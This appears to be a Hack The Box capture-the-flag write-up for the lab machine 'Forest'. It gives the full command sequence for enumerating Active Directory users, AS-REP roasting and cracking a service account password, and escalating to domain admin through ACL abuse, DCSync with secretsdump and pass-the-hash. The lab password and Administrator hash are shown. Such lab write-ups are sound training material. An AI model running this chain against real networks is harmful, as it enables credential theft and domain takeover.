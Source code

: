 ```yaml
---
layout: single
title:  "HTB - Forest Writeup - 10.10.10.161"
date:   2020-06-08 14:45:23 +0100
categories: hackthebox
---
```


![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2qlvus10kpyovinvrdjj.png)

# HTB - Forest Writeup - 10.10.10.161

This machine is rated easy difficulty and involved abusing kerberos pre-authentication to kerberoast a hash of a local service account using the impacket script `GetNPUsers`. Root required using bloodhound to visualize the AD environment and find a path to the domain admin, which included abusing ACL's to get DCSync rights.


## 1. Recon

As usual we will start with an nmap scan of the target machine.
`nmap -sC -sV -oA nmap/scan 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/y5ve5duwo71bc01j1m44.png)
The ports of note here are:
* 445 - SMB
* 88 - Kerberos
* 135 - RPC
* 5985 - Powershell - WSMan - Remote Management 


Knowing that we have rpc open we can try null authentication to get a list of user accounts
`rpcclient -U "" -N 10.10.10.161` `enumdomusers`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ozrr70r5kgd6wk5qqosf.png)

 - One account is of particular interest as is starts with `svc` which indicates it may be a service account which would mean we can abuse its special permissions relating to local groups and users
 - We can attempt to kerberoast this user to try and get a hash we can crack

## 2. Exploitation to User

Clone the [Impacket repo](https://github.com/SecureAuthCorp/impacket) and navigate into the examples folder
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8rrjysjhmo5awcrfk68g.png)

Now try try attacking the `svc-alfresco` account:
* If you remember from the nmap scan the domain was `htb.local`
`./GetNPUsers.py htb.local/svc-alfresco -format john -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cvwm8bcl1ojxr7ew4g62.png)
Bingo! We now have the asrep hash of the user `svc-alfresco` and we can crack is using johntheripper
1. First place the hash in a file called hash.txt
2. Run `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/uladgd2oswyy4gsg5n0w.png)
* We now have the password of the user svc-alfresco - s3rvice

Now we can login to the powershell remote management port using a tool called [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70no1wzqykv6yl5eal8j.png)

Now that we have a shell we can also grab `user.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/eqt6x8uwh1bs6ixell2n.png)

## 3. Priv Esc from User to Domain Admin
* For this priv esc we will use a tool called bloodhound to visualise the Active Directory environment - follow this guide on how to set it up on your system [BloodHound Wiki](https://bloodhound.readthedocs.io/en/latest/index.html)

To begin we need to initialize the neo4j database, you can do this by running: `neo4j console`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ncikv9qhqfgs4kv1tp58.png)

Now that the db has been launched we can launch blood hound by running `bloodhound` in a terminal
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70n5ncns9wny2bw3z3v4.png)

Now that bloodhound is running, we need some data to analyze, we can use the SharpHound.exe file and the upload and download capabilities of Evil-WinRM to get the files.
Open a new terminal and download the SharpHound.exe file from github
`https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iin83gg0xty15r0wzps5.png)

Now in your Evil-WinRM terminal type: `upload SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7od4miigwy2k6sw2bq6f.png)

Now we can run the file with the `-c All` flag to to specify we wan't to collect all data on the AD environment
`.\SharpHound.exe -c All`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wera23epacu76kcnetfi.png)

`ls` `download 20200506091425_BloodHound.zip`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fefgmf7zsksz6y0mk5af.png)

We now have the bloodhound zip file on our local machine so we can open it in bloodhound by dragging it into the window 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/12nb43yp3fbjmsdsvngl.png)
* You should now see that we have a lot of data in our database

Now we can run one of the pre-made queries `Shortest Paths to Unconstrained Delegation Systems` 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7c9vjeaqomb8sot6xbye.png)
There are a few things that we can see now:
* We are part of the privileged IT group and as a result part of Account Operators can be a member Exchange Windows Permissions and Exchange Trusted Subsystem Group
* Firstly, this means that we can add ourselves to Exchange Windows Permissions and Exchange Trusted Subsystem Group
* This also means we can abuse ACL (Access Control List) to allow svc-alfresco to perform a DCSync attack to get the admin hash, here is a good video that explains this, [Here](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

Let's try adding ourselves to this group new group:
`net group "Exchange Windows Permissions" svc-alfresco /add`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/c1rqpd51i953tflk5bzn.png)

We can also add ourselves to the `Exchange Trusted Subsystem Group` which will allow us to abuse ACL
`Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/mi71qtpg1f92lk8xeyc4.png)

We can now use a tool called `aclpwn` to give `svc-alfresco` DCSync rights. There is an article here that describes it's usage very well - [ACLPWN Blog](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)

1. Lets install aclpwn in kali, it's as simple as `pip install aclpwn`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ld4bmnztdkqyw7fd2r0e.png)

2. Lets execute this command to give us DCSync permissions
`aclpwn -f svc-alfresco -ft user -d htb.local -s 10.10.10.161` and use option 1
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fqz304mu486dxa7brlwm.png)


3. Now we can use impacket's `secretsdump.py` to get the admin hash
`secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/u2oswynll38jweio651f.png)

### Bingo! We now have the admin hash

We can use this to logon using Evil-WinRM with the -H flag and grab `root.txt`
`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/r6xpmwnxroiu8qijd4d6.png)

## Rooted!

If you enjoyed my write up or found it useful check you my htb profile linked below

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

